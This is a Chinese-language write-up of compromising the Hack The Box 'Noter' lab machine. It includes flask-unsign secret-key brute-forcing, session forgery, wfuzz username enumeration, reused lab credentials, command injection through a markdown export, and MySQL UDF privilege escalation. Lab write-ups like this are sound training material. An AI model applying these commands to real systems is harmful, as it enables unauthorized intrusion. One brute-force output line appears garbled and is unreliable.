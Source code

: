 ```yaml
---
title: htb noter
copyright: true
date: 2022-05-11 15:51:55
tags: 靶机渗透
---
```

htb不允许公开active靶机的wp，这里只是自己记录下渗透过程。
<!--more-->
难度：medium  

**1.端口扫描**  
nmap -sVC -A --min-rate 5000 10.129.171.250 > port.txt  
21 22 5000端口开放  

**2.web**  
5000端口是个flask应用，熟悉的味道，熟悉的配方，flask基本上就考虑jinja2 ssti和secret_key伪造了  
![1.png](https://github.com/lockcy/penetration-kb/tree/master/htb-noter/1.png)  
注册一个普通用户，在添加笔记功能发现了一个xss  
![2.png](https://github.com/lockcy/penetration-kb/tree/master/htb-noter/2.png)  
![3.png](https://github.com/lockcy/penetration-kb/tree/master/htb-noter/3.png)  
在这里尝试了很久才基本确定这个xss没有利用价值  
尝试leak secret_key失败，尝试爆破session  
```
flask-unsign --unsign --cookie "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidGVzdCJ9.YnpVIQ.4XYlyJbVnl7qlkIJENKNrgDSkVI" < /usr/local/lib/python3.9/dist-packages/flask_unsign_wordlist-2022.19-py3.9.egg/flask_unsign_wordlist/wordlists/all.txt
```
```
[*] Session decodes to: {'logged_in': True, 'username': 'test'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2688): -----BEGIN PRIVATE KEY-----DEF
[+] Found secret key after 16640 attempts32.com/v1/pe
'secret123'
```
使用伪造的admin session登录失败，应该没有admin这个用户，关注到登录时用户名存在与否的显示不同。  
![4.png](https://github.com/lockcy/penetration-kb/tree/master/htb-noter/4.png)  
![5.png](https://github.com/lockcy/penetration-kb/tree/master/htb-noter/5.png)  
fuzz有效用户名  
```
wfuzz -t 5 --ss "Invalid login" -d 'username=FUZZ&password=1' -w /root/桌面/tools/字典/SecLists-master/Usernames/cirt-default-usernames.txt http://10.129.173.40:5000/login
```
![6.png](https://github.com/lockcy/penetration-kb/tree/master/htb-noter/6.png)  
其中test是我测试时创建的用户，伪造TEST 和blue的session试试，发现blue是vip用户  
```
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret "secret123"

eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YnqLdQ.XgF7a8l7SFd4HdntVKE-0YHGdeE
```
![7.png](https://github.com/lockcy/penetration-kb/tree/master/htb-noter/7.png)  
在blue的笔记中发现了ftp服务的一个用户名密码blue  blue@Noter!和管理员用户名ftp_admin  
![8.png](https://github.com/lockcy/penetration-kb/tree/master/htb-noter/8.png)  
使用blue登入ftp服务器，发现了一个密码策略pdf，知道了默认密码为username@site_name!  
![9.png](https://github.com/lockcy/penetration-kb/tree/master/htb-noter/9.png)  
使用ftp_admin  ftp_admin@Noter!   登入ftp，获取两个版本的flask源码，通过beyondcompare辅助审计代码，发现mysql root用户名密码（后边要用）和一个命令注入点：  
这里的r.text.strip()可控，使用;可以在shell里执行多条命令  
![10.png](https://github.com/lockcy/penetration-kb/tree/master/htb-noter/10.png)  
kali上构造一个md文件，本地监听+远程导出一下，getshell  
![11.png](https://github.com/lockcy/penetration-kb/tree/master/htb-noter/11.png)  
![12.png](https://github.com/lockcy/penetration-kb/tree/master/htb-noter/12.png)  
![13.png](https://github.com/lockcy/penetration-kb/tree/master/htb-noter/13.png)  
cat /home/svc/user.txt  

**3.提权**
上传pspy64看下进程，没什么可疑的，跑下linpeas，尝试了一番也没啥结果，这时想起了mysql用户名密码，udf一下。  
这里刚开始犯蠢了，直奔插件目录/usr/lib/x86_64-linux-gnu/mariadb19/plugin/ 想上传udf可执行程序，发现没有权限，想了一段时间，后来发现直接用mysql root用户往该目录里二进制dump即可。  
https://github.com/lockcy/penetration-kb/blob/master/htb-noter/linux32udf.py
```
python linux32udf.py --username root --password Nildogg36
./sh -p
```
获取root权限  
cat /root/root.txt  
